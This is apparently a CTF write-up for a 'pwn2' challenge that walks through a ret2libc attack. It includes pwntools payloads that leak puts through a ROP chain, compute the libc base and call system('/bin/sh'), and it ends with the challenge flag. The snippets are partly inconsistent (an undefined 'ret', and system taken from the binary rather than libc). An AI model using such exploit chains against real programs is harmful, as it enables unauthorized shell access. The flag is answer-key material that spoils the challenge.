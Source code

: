 # pwn2

This program is slightly different from the last one. It gives us two inputs. I honestly didn't know why. I just decided to perform a ret2libc attack since it was the most straight forward.

In order to perform a ret2libc attack, we must first figure out what version of libc it is, as different libcs have different function offsets. However, the addresses of the functions change every time the program is run. This is supposed to be a form of protection against this attack.

However, the last three bytes in the funciton address always stays the same. As such, we can still figure out the libc version from the last three bytes.

In order to leak the address of the functions, we have to trick the program into printing them out.

This can be done with ROP. Remember how we pointed the RIP to the win function in pwn1? This is quite similar to that.

In assembly, functions take their arguments from the RDI register. As such, we have to pass in the function that we want to be leaked into RDI. This can be done with ROP gadgets.

Using ropper on the file, we can find a `pop rdi` gadget, which will basically remove the value in RDI and pass in a new one.

Here is how our payload will look like:
```
poprdi = pack(0x0000000000401196)
puts_got = pack(elf.got['puts'])
system_got = pack(elf.got['system'])
puts = pack(elf.symbols['puts'])
main = pack(elf.symbols['main'])

payload = b"A" * offset
payload += poprdi + puts_got + puts 
# payload += poprdi + system_got + puts
payload += main

# This is to get pass the first input, which doesn't allow for buffer overflows.
p.sendlineafter(b"Would you like a flag?\n", b'a')
p.sendlineafter(b"Would you like a flag?\n", payload)
p.recvuntil(b"fl4g}")

puts_leak = u64(p.recvline().strip().ljust(8, b'\x00'))
# system_leak = u64(p.recvline().strip().ljust(8, b'\x00'))
```

Basically, we are pointing the RIP to different snippets of code. These snippets of code combined will allow us to controlt he flow of the program.

With the values we obtained, we can go to https://libc.rip to figure out what libc version the program is using.

After downloading the libc, we must calculate the libc base. Remember how I said that the funciton addresses in the GOT change everytime when program is run? There is actually a pattern to how it is done. All the functions share a libc base, and with the libc, we know all the offsets of the functions.

We can simply take the libcbase + offset of the function in libc to get the address of the function in the program.

Libcs conatain a lot of useful functions, and right now we will make use of the system and binsh string within the libc.

Here is what our payload looks like now:

```

libc = ELF("./libc6_2.35-0ubuntu3.1_amd64.so", checksec=False)

libcBase = puts_leak - libc.symbols['puts']
print(f"LIBC BASE:{hex(libcBase)}")
system = pack(elf.symbols['system'])
binsh = pack(next(libc.search(b'/bin/sh')) + libcBase)

payload = b"A" * offset
payload += ret
payload += poprdi + binsh
payload += system
```

Wow it works :thumbsup:

Flag:
n00bz{3xpl01t_w1th0u7_w1n_5uc355ful!}
